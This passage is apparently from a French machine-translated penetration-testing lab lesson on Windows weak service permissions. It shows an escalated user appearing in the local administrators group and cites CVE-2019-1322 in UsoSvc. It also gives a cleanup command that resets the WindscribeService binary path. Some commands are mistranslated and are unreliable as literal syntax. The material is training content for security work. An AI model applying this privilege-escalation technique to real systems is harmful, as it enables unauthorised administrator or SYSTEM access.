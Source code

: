 [SC] ÉCHEC du service de démarrage 1053 :

Le service n'a pas répondu à la demande de démarrage ou de contrôle en temps opportun.

```

#### Confirmation de l'ajout du groupe d'administrateurs locaux

Enfin, vérifiez pour confirmer que notre utilisateur a été ajouté au groupe des administrateurs locaux.

Confirmation de l'ajout du groupe d'administrateurs locaux

```
C:\htb> administrateurs du groupe local net

Administrateurs de noms d'alias
Commentaire Les administrateurs ont un accès complet et illimité à l'ordinateur/au domaine

Membres

-------------------------------------------------- -----------------------------
Administrateur
htb-étudiant
mrb3n
La commande s'est terminée avec succès.

```

Un autre exemple notable est le [service d'orchestrateur de mise à jour (UsoSvc)](https://docs.microsoft.com/en-us/windows/deployment/update/how-windows-update-works) de Windows, qui est responsable du téléchargement et installation des mises à jour du système d'exploitation. Il est considéré comme un service Windows essentiel et ne peut pas être supprimé. Puisqu'il est chargé d'apporter des modifications au système d'exploitation via l'installation de mises à jour de sécurité et de fonctionnalités, il s'exécute en tant que compte `NT AUTHORITY\SYSTEM` tout-puissant. Avant d'installer le correctif de sécurité relatif à [CVE-2019-1322](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1322), il était possible d'élever les privilèges d'un compte de service à `SYSTEM`. Cela était dû à des autorisations faibles, qui permettaient aux comptes de service de modifier le chemin binaire du service et de démarrer/arrêter le service.

* * * * *

Autorisations de service faibles - Nettoyage
----------------------------------

Nous pouvons nettoyer après nous-mêmes et nous assurer que le service fonctionne correctement en l'arrêtant et en réinitialisant le chemin binaire vers l'exécutable du service d'origine.

#### Inverser le chemin binaire

Inverser le chemin binaire

```
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
